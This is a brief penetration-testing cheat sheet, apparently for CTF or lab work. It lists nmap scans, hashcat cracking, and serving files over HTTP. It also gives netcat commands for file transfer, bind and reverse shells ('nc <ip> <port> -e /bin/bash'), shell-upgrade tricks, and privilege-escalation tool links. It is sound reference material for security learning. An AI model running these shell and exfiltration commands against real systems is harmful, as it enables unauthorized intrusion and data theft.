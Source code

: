 # Basic

## Target Scan

### Nmap

```bash
nmap -sC -sV -oA <location> <ip>
nmap -v -p- -A <ip>
```

## Fuzz & Crack

### Hashcat

```bash
hashcat -m <mode> <hash.txt> <wordlist.txt>
```

Create your own wordlist:

```bash
hashcat --force <passwords.txt> -r <best64.rule> --stdout
```

{% hint style="info" %}
Find rules in _/usr/share/hashcat/rules/_
{% endhint %}

### ffuf

[Fuzz Faster U Fool](https://github.com/ffuf/ffuf). I guess that replaces Hydra and wfuzz.

## Hosting

### Host a file locally

```bash
python2 -m SimpleHTTPServer <port>
python3 -m http.server <port>
```

## Shells

### nc

> TCP/IP Swiss army knife\#

```bash
# Listen  
nc -nlvp <port>
nc -nlvp <port> > <incoming_file>   # redirect incoming input

# Connect
nc -nv <ip> <port>
nc -nv <ip> <port> < <push_file>    # send a file
```

**Reverse Shells**

Bob \(Windows\) dicrectly connected to Internet, Alice \(Linux\) behind NAT.

_Bind Shell_

```bash
# Bob can create a nc server and serve make clients connect to his shell
nc -nlvp <port> -e cmd.exe

# Alice can then connect to it
```

_Reverse Shell_

```bash
# Alice cannot bind port locally and expect Bob to connect (because NAT)
# Alice can instead send shell to Bob (Bob needs to setup nc server)

nc -nv <ip> <port> -e /bin/bash
```

More: [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

_Getting a nicer prompt_

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
<C-z>
stty raw -echo
fg
```

```bash
script -c "/bin/bash -i" /dev/null
```

## PrivEsc

### Enumeration Scripts

* [LinPeas.sh / WinPeas.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
* [Seatbelt](https://github.com/GhostPack/Seatbelt) \(for Windows\)

### Monitoring

* [pspy](https://github.com/DominicBreuker/pspy) - proccess snooping

